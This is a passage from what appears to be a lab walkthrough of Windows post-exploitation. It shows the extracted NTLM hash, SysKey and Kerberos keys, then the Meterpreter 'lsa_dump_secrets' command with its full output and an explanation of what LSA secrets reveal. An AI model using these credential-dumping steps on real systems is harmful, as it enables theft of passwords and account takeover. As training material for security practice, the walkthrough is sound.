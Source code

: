 ```bash
```

#### **🎯 Key Information Extracted:**
- **Domain Name:** ATTACKDEFENSE
- **SysKey:** 377af0de68bdc918d22c57a263d38326 (system encryption key)
- **Administrator RID:** 500 (standard admin account ID)
- **NTLM Hash Confirmed:** e3c61a68f1b89ee6c8ba9507378dc88d
- **Kerberos Keys:** AES256 and AES128 encryption keys

#### **What Each Item Means:**
- **RID (Relative ID):** Unique number identifying the user account
- **SysKey:** Master key used to encrypt passwords in SAM database
- **AES Keys:** Modern encryption keys for Kerberos authentication
- **Supplemental Credentials:** Additional authentication data

---

### **Step 5: Extract LSA Secrets**

**What We're Doing:** Accessing Local Security Authority secrets for additional system information

#### **Command Used:**
```bash
lsa_dump_secrets
```

#### **What Happened:**
```bash
meterpreter > lsa_dump_secrets
[+] Running as SYSTEM
[*] Dumping LSA Secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )

Policy subsystem is : 1.18
LSA Key(s) : 1, default {479880dc-8bd1-89c9-bf85-0c4fca25e625}
  [00] {479880dc-8bd1-89c9-bf85-0c4fca25e625} 2e7e7be3d05b854d29c91c8ba6936ce4
```

#### **🔍 Additional Intelligence Gathered:**
- **Security Policy Version:** 1.18
- **LSA Encryption Keys:** Used to protect sensitive system data
- **Domain Security ID:** Complete identification string
- **Policy Subsystem:** Shows Windows security configuration level

#### **Why LSA Secrets Matter:**
LSA secrets can contain cached domain passwords, service account credentials, and other sensitive authentication data that might not appear in regular credential dumps.

---